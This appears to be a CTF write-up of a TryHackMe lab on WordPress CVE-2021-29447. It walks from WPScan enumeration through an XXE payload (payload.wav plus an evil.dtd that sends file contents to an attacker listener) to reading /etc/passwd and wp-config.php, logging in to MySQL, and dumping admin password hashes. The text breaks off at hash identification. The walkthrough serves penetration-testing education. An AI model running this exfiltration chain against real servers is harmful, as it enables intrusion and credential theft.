

# CTF Writeup — WordPress CVE-2021-29447 (XXE to RCE) — Extended

> [!info] Room Info
> **Platform:** TryHackMe
> **Room:** [WordPress CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
> **Vulnerability:** XML External Entity (XXE) injection in WordPress Media Library
> **Affected Versions:** WordPress 5.6 – 5.7
> **Patched Version:** WordPress 5.7.1
> **Exploit Chain:** XXE → Arbitrary File Read → Credential Extraction → DB Compromise → Admin Login → Malicious Plugin Upload → Reverse Shell (RCE)


---

## Phase 1: Reconnaissance

### 1.1 — Access the Target

Navigate to the target web application:

```
http://10.113.140.145/
```


> [!note] WordPress Recognition
> Even without explicit branding, WordPress is recognizable by its default theme layout. It's an extremely popular CMS — almost everyone in CSE has used it for drag-and-drop websites. WordPress has a long and rich history of vulnerabilities: RCEs, path traversal, file upload, SQL injection — new issues come out every year and are very common on Exploit-DB. This makes it an interesting and practical target for exploitation practice.

### 1.2 — Version Discovery via Page Source

**View Page Source** and search for the `meta name="generator"` tag to find the WordPress version:


```
WordPress 5.6.2
```

> [!tip] Manual WordPress Version Discovery
> In the page source, look for `<meta name="generator" content="WordPress X.X.X">`. The `content` value tells you the exact version. This is a quick manual method before even running any scanners.

### 1.3 — WPScan Enumeration

**WPScan** is a specialized scanner for WordPress sites. It gathers information on plugins, themes, versions, and known exploits specific to WordPress technology.

```bash
wpscan --url http://10.113.140.145/ -e ap,at,u
```

Full WPScan output:

```
└─# wpscan --url http://10.113.140.145/           
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://10.113.140.145/ [10.113.140.145]
[+] Started: Tue Sep  8 06:36:46 2026
[+] Command Line: wpscan --url http://10.113.140.145/
[+] Hostname: kali

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://10.113.140.145/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.113.140.145/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.113.140.145/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.113.140.145/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://10.113.140.145/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://10.113.140.145/wp-content/themes/twentytwentyone/
 | Last Updated: 2026-08-19 4:00am GMT (20 days ago, per WordPress.org)
 | Active Installs: 200,000 (per WordPress.org)
 | Readme: http://10.113.140.145/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://10.113.140.145/wp-content/themes/twentytwentyone/style.css
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.113.140.145/wp-content/themes/twentytwentyone/style.css, Match: 'Version: 1.1'

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Tue Sep  8 06:36:55 2026
[+] Requests Done: 31
[+] Cached Requests: 6
[+] Most response codes received: 200: 17, 404: 12, 302: 1, 500: 1
[+] Data Sent: 8.462 KB
[+] Data Received: 193.252 KB
[+] Memory used: 207.93 MB
[+] Elapsed time: 00:00:09
```

**Key findings:**
- **Server:** Apache/2.4.18 (Ubuntu)
- **WordPress Version:** 5.6.2 (Insecure)
- **Theme:** Twenty Twenty-One v1.1 (outdated, latest is 2.8)
- **Upload directory listing enabled** — useful for later enumeration
- **No WPScan API token** — vulnerability data not shown (register at wpscan.com for free)

---

## Phase 2: Exploit Research

### 2.1 — Searching for CVEs

Google search:

```
WordPress 5.6.2 exploit
```

Found: **CVE-2021-29447** — WordPress XML parsing issue in the Media Library leading to XXE.

GitHub PoC: https://github.com/0xRar/CVE-2021-29447-PoC


### 2.2 — Exploring Multiple Exploit Sources

When searching for WordPress CVEs, multiple sources were tried:

**SearchSploit (Offline):**
- Searching `searchsploit wordpress 5.6.2` returned nothing specific
- Broadening to `wordpress 5.6` or `5.7` returned too many unrelated results (WordPress has hundreds of CVEs across versions)
- SearchSploit can be tricky when the version number is not very specific — it works better with exact service names

**MSFconsole (Metasploit):**
- Searching `search wordpress 5.6` in MSFconsole didn't work well either — MSF shows generic "WordPress" results and isn't great for version-specific searching
- MSF is not the primary tool for searching WordPress exploits, though you can use it

**GitHub (Best for this case):**
- Searching `WordPress 5.6.2 exploit` on Google led directly to a GitHub PoC
- GitHub is often the most reliable source for newer, version-specific PoCs

> [!tip] Exploit Source Priority for WordPress
> For version-specific WordPress CVEs: **Google/GitHub** > **Exploit-DB** > **SearchSploit** > **MSFconsole**. SearchSploit and MSF struggle with WordPress's massive CVE count across minor versions.

### 2.3 — Understanding the Exploit (CVE-2021-29447)

**CVE-2021-29447** is an **XXE (XML External Entity)** vulnerability:
- WordPress's XML parser processes uploaded media files (specifically `.wav` files containing XML metadata)
- The parser interprets external entities in the **DTD (Document Type Definition)**
- An attacker crafts a malicious `.wav` file that triggers the parser to fetch and expose arbitrary server files
- Data is exfiltrated via a callback to the attacker's server, encoded with **Zlib + Base64**

> [!note] What is XXE?
> **DTD** = Document Type Definition. The XML parser parses the DTD, and if it encounters an external entity (like `file:///etc/passwd`), it interprets it — fetching the file content and exposing it. This is a classic XXE attack pattern. For a deeper understanding, refer to the Web Application module where XXE is explained in detail. This knowledge is useful for OSCP-style exams.

**PoC tool usage:**

```
usage: PoC.py [-h] [-l LHOST] [-p PORT] [-f FILE]

options:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST  your server ip address e.g. 10.0.2.15
  -p PORT, --port PORT  your server port e.g. 1337
  -f FILE, --file FILE  system file to read e.g. /etc/passwd
```

**LHOST** = your attacker machine IP (where the exfiltrated data comes back). **LPORT** = port on your attacker machine for the listener. **-f** = the file you want to read from the target server.

---

## Phase 3: Exploiting XXE (Arbitrary File Read)

### 3.1 — Generate the Malicious Payload

Run the PoC script to target `/etc/passwd`:

```bash
python PoC.py -l 192.168.129.117 -p 4444 -f /etc/passwd
```

This generates two files:
- **`payload.wav`** — malicious WAV file containing the XXE payload
- **`evil.dtd`** — Document Type Definition hosted on the attacker's server

Verifying the generated files:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ls
evil.dtd  Nessus-10.12.4-ubuntu1604_amd64.deb  payload.wav  PoC.py
                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ cat evil.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
    
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.113.140.145:4444/?p=%file;'>" >  
```

> [!note] How the Exploit Chain Works
> 1. The `payload.wav` file contains XML metadata with a reference to `http://<attacker-IP>:<port>/evil.dtd`
> 2. When WordPress parses the WAV file, it sends a GET request to fetch `evil.dtd` from the attacker's server
> 3. The `evil.dtd` instructs the parser to read a file (`/etc/passwd`) using `php://filter` with Zlib compression + Base64 encoding
> 4. The encoded file content is sent back to the attacker's server as a URL parameter (`?p=<base64>`)
> 5. The attacker decodes the Base64 + Zlib to reveal the file contents

### 3.2 — Authenticate to WordPress

Navigate to the WordPress login page:

```
http://10.113.140.145//wp-login.php
```


Login with credentials provided by TryHackMe:

```
user: test-corp  
password: test
```


> [!note]
> TryHackMe provided dummy credentials for a low-privilege user. The `test-corp` account has **media upload permissions**, which is all we need for this XXE exploit. We need upload access to get the malicious `.wav` file onto the server where WordPress will parse it.

### 3.3 — Upload the Malicious WAV File

Go to **Media → Library → Add New** and upload `payload.wav`:


Select `payload.wav` and upload it:


### 3.4 — Receive the Callback

Once uploaded, WordPress parses the WAV file's XML metadata, triggering the full XXE chain. The attacker's server logs show the sequence:

```shell
└─# python PoC.py -l 192.168.129.117 -p 4444 -f /etc/passwd

    ╔═╗╦  ╦╔═╗     
    ║  ╚╗╔╝║╣────2021-29447
    ╚═╝ ╚╝ ╚═╝
    Written By (Isa Ebrahim - 0xRar) on January, 2023

    ═══════════════════════════════════════════════════════════════════════════
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE
    [*] Affected versions: Wordpress 5.6 - 5.7
    [*] Patched version: Wordpress 5.7.1
    [*] Installation version: PHP 8
    ═══════════════════════════════════════════════════════════════════════════
    
[+] payload.wav was created.
[+] evil.dtd was created.
[+] manually upload the payload.wav file to the Media Library.
[+] wait for the GET request.

[Tue Sep  8 06:52:33 2026] PHP 8.4.24 Development Server (http://0.0.0.0:4444) started
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 Accepted
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 [200]: GET /evil.dtd
[Tue Sep  8 06:52:45 2026] 10.113.140.145:60132 Closing
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60134 Accepted
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60134 [404]: GET /?p=hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X - No such file or directory                   
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60134 Closing
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60136 Accepted
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60136 [200]: GET /evil.dtd
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60136 Closing
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60138 Accepted
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60138 [404]: GET /?p=hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X - No such file or directory                   
[Tue Sep  8 06:52:46 2026] 10.113.140.145:60138 Closing
```


> [!note] Reading the Server Logs
> The `[200]: GET /evil.dtd` entries show the target server successfully fetching the DTD from our attacker server. The `[404]: GET /?p=hVTbjp...` entries contain the exfiltrated data as a URL parameter — the `404` is expected since the PHP dev server doesn't have a handler for `/?p=`, but the data is captured in the logs. The "No such file or directory" message is also expected and harmless.

### 3.5 — Decode the Exfiltrated Data

The exfiltrated data arrives Zlib-compressed and Base64-encoded. WordPress and the exploit use Zlib encoding for effective data exfiltration.

Create a PHP decoder script:

```bash
gedit decode.php
```


**Template:**

```php
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Replace `base64here` with the actual Base64 string from the server logs:

```php
<?php echo zlib_decode(base64_decode('hVTbjpswEH3fr+CxlYLMLTc/blX1ZVO1m6qvlQNeYi3Y1IZc+vWd8RBCF1aVDZrxnDk+9gxYY1p+4REMiyaj90FpdhDu+FAIWRsNiBhG77DOWeYAcreYNpUplX7A1QtPYPj4PMhdHYBSGGixQp5mQToHVMZXy2Wace+yGylD96EUtUSmJV9FnBzPMzL/oawFilvxOOFospOwLBf5UTLvTvBVA/A1DDA82DXGVKxqillyVQF8A8ObPoGsCVbLM+rewvDmiJz8SUbX5SgmjnB6Z5RD/iSnseZyxaQUJ3nvVOR8PoeFaAWWJcU5LPhtwJurtchfO1QF5YHZuz6B7LmDVMphw6UbnDu4HqXL4AkWg53QopSWCDxsmq0s9kS6xQl2QWDbaUbeJKHUosWrzmKcX9ALHrsyfJaNsS3uvb+6VtbBB1HUSn+87X5glDlTO3MwBV4r9SW9+0UAaXkB6VLPqXd+qyJsFfQntXccYUUT3oeCHxACSTo/WqPVH9EqoxeLBfdn7EH0BbyIysmBUsv2bOyrZ4RPNUoHxq8U6a+3BmVv+aDnWvUyx2qlM9VJetYEnmxgfaaInXDdUmbYDp0Lh54EhXG0HPgeOxd8w9h/DgsX6bMzeDacs6OpJevXR8hfomk9btkX6E1p7kiohIN7AW0eDz8H+MDubVVgYATvOlUUHrkGZMxJK62Olbbdhaob0evTz89hEiVxmGyzbO0PSdIReP/dOnck9s2g+6bEh2Z+O1f3u/IpWxC05rvr/vtTsJf2Vpx3zv0X')); ?>
```

Run the decoder:

```bash
php decode.php
```

**Output — `/etc/passwd`:**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
stux:x:1000:1000:CVE-2021-29447,,,:/home/stux:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
```

**Key findings from `/etc/passwd`:**
- User `stux` (UID 1000) with `/bin/bash` — a real, manually created user account (UID 1000 = first non-system user)
- `mysql` user exists — confirms MySQL is running on this system
- `sshd` is present — SSH service is available
- `www-data` — web server service account

---

## Phase 4: Escalating File Read → Reading wp-config.php

### 4.1 — The Escalation Logic

> [!important] Chaining Read Access to Write Access
> The XXE only gives us **read** access — we can read any file on the system. But for initial access, we need **write/RCE** access. The trick is to read files that contain credentials for other services (MySQL, FTP, SSH). If you find SSH credentials in plain text, you can take access to the system indirectly. For WordPress specifically, the most valuable file to read is **`wp-config.php`** — it contains database credentials in plain text, which is more immediately useful than `/etc/passwd`.

### 4.2 — Target the WordPress Config File

Re-run the exploit targeting `wp-config.php`:

```bash
python PoC.py -l 192.168.129.117 -p 4444 -f /var/www/html/wp-config.php
```

Upload the new `payload.wav` to the Media Library again (Add New → select `payload.wav`), then receive the new Base64 callback:


New Base64 string received:

```
nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2HIdDreA4CWPPPPP+zPzxly704UF0fHx4AMcwKzgsmeWQKJmJ3BvmhJKQKQP3yqR3hltLgo3wo+5Woj3EgcTwSsEmRmgH3nILrhAWMlFySL0RMscXPOgLaR0ry6DRg0/KQ6pkx0HB1hycIm2ShUe+BCscP4ENyiRMBu1E6U0LG+Xf7DnzBphM6VuJhgLOmpWe217L/60yajmG7gSxTJWleiRH95JgzxvFY/i4if8Zg+XOoZytX8Yc43fwwDfbNwPmWEgn/kIz2vBMfKm/9S/ju/5s1IBelEI+QOGctudR9IjZ1pTtnjJ5ZL3WyriIGSeSkkc8FWS42wTcxYCjHZRmyQPL+X7N8DsWOoLjp+5DNyQfEws5+h9yKmSmIDNqRTk3oQSFso6Uoyj0Syi/ZCsOKgt5S7fB7nVLsJti3JK/hc7gcnHb/zjsnECniTBdvuvAz++Dd41vDRg2gQlWnuLM4+GUcNB0ysyDYzLn0v0HkmbWktHvkO76cXw/mQ4Izc71mYnPqJCnZ8/4RUl41p3RJJ4RQKkSVpJUW7fpg6uCGUs5rrobG7MaGWy2dK9XbO87C1ej/jQeBiPeZb+38akUOxuKZgpxNpr3YBBGKikoPXVpM7KbKr90zxiZjMf9WShQy8CPF7+Exup7zLbEHqymfC7FZ8/hAzZ8GLaYla41X1dbo9yG+UxFlnGD+uArRV0YdNgeBeldC0pugv9Bz9uaMuDr/oQwLXpPpiTMXxfnLzrtnUYWvYl2jUgisBPBR7MWCf+2Zzxpu8wcRrUBrQS6TBwiViEOIZFJREo+In0B/yKsq+hCPQiqXCCWR2IeHIWkkqI+tqS9ZbdS5QTKciSeXc4uMFzUeNf7rfdrPbRNefrz2WjxYfgJi7P919HeVRO6l1IoMM9V/RrteHg1nw4XbZAXaI8n19fDweLmdufAC7RvJ7dXw33XX6AdXI7749mrtNtx1yCvirtx4MVx77n+/9r1xHVrwq43845Qm0GftZbKroO2rRz6bOVLJ3TJ93YtsTso2WJspARarblAFc6SIgCxxsPKAkxkuQHpV0vs5BMocXuEB5p8L1N8ThQ6CGgOMY/q7v0p0NmiwoA/kfe1M5tF5307uL9xY6R8zUulEea8FWzKlz7PabpWKuXPcIsIQ+WMD0PFZchJWEfC6pJtaDtJhZSFntX3R21phUwUAOEGx9uCdUbJHEM0PFEr/JryFJGQBXTpcxpVSX9zJIGdr4HG7+8Wg+Hl/Lq+akhImLYZ9GstEJ2eWwRJYdOiNauKT+k/6ho6PLBcKFvZp3IuwypMw3JtknISYNYCr6MqZpV4slGdVK86LRrsrpDdRjR6ykXbkLGvM1ZiDradi+THXMcS551gSpWG+lg5ghHTeLJpvyyFLfDN3vYhxNEknAYBsDVH9Cm+mQ3n03H7a7X6+kurSu9ovbsitELB2/0jsJpOmU1lDBv9LRxBBZwSt1RXGE4e/nw9PPhhxzr1lxNYLAY308UCetCJqhH9trUec6yR1y2Da1zwoVOQx0tPLUQXZr3ODf/s0aGFIo6vDRAs3nHbY4xOVxqOfwE=
```

### 4.3 — Decode wp-config.php

Replace the Base64 string in `decode.php` with the new one:

```bash
gedit decode.php
```

Run the decoder:

```bash
php decode.php
```

**Output — `wp-config.php`:**

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb2' );

/** MySQL database username */
define( 'DB_USER', 'thedarktangent' );

/** MySQL database password */
define( 'DB_PASSWORD', 'sUp3rS3cret132' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wptry_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */
define('WP_HOME', false);
define('WP_SITEURL', false);

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

### 4.4 — Extracted Credentials

```
DB_NAME:     wordpressdb2
DB_USER:     thedarktangent
DB_PASSWORD: sUp3rS3cret132
Table Prefix: wptry_
```

> [!tip] WordPress Knowledge Required
> To answer "what is the database name?", you need to know that WordPress stores its database configuration in `wp-config.php`, located in the web root (`/var/www/html/`). This is standard WordPress structure knowledge. Different files have different information — knowing **which** file to read is a key pentest skill.

---

## Phase 5: Database Compromise

### 5.1 — Verify MySQL is Remotely Accessible

```bash
nmap -sV -p 3306 10.113.140.145
```

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-08 07:49 -0400
Nmap scan report for 10.113.140.145
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
```

✅ MySQL port 3306 is open and accessible remotely.

### 5.2 — Connect to MySQL

Basic MySQL remote login syntax:

```bash
mysql -h <SERVER_IP> -u <USERNAME> -p
```

First attempt:

```bash
mysql -h 10.113.140.145 -u thedarktangent -p sUp3rS3cret132
```

**Error encountered:**

```
ERROR 2026 (HY000): TLS/SSL error:
Certificate verification failure: The certificate is NOT trusted.
```

> [!warning] Troubleshooting — SSL/TLS Error
> The MySQL client attempted an SSL/TLS connection and rejected the server's self-signed certificate. The port is confirmed open (Nmap showed it), so the issue is **not connectivity** but **certificate trust**. Since this is an authorized THM lab, we can safely skip SSL verification.

**Fix — add `--skip-ssl`:**

```bash
mysql -h 10.113.140.145 -u thedarktangent -p --skip-ssl
```

Enter password: `sUp3rS3cret132`

```
└─$ mysql -h 10.113.140.145 -u thedarktangent -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

✅ Successfully logged into the database remotely.

> [!note] Remote MySQL Access
> Remote MySQL login requires special server-side configuration — it's not allowed by default. In this lab it was enabled, but in the real world it might not be. If remote MySQL is blocked, you'd need to find another way to interact with the database (e.g., through the web application, or via SSH if you get credentials).

### 5.3 — Enumerate the Database

**List databases:**

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.162 sec)
```

**Select the WordPress database and list tables:**

```sql
MySQL [(none)]> use wordpressdb2 ;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```sql
MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.163 sec)
```

> [!note]
> The table prefix `wptry_` matches what we saw in `wp-config.php`'s `$table_prefix`.

### 5.4 — Extract User Credentials

```sql
MySQL [wordpressdb2]> select * from wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
2 rows in set (0.161 sec)
```


**User ID 1 (admin) hash:**

```
$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1
```

> [!note]
> User ID 1 is almost always the WordPress administrator — they're the first user created during installation.

---

## Phase 6: Password Cracking

### 6.1 — Identify the Hash Type

To crack a hash, you first need to know what format it is — what type of hash algorithm was used.

```bash
hash-identifier
```

```
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
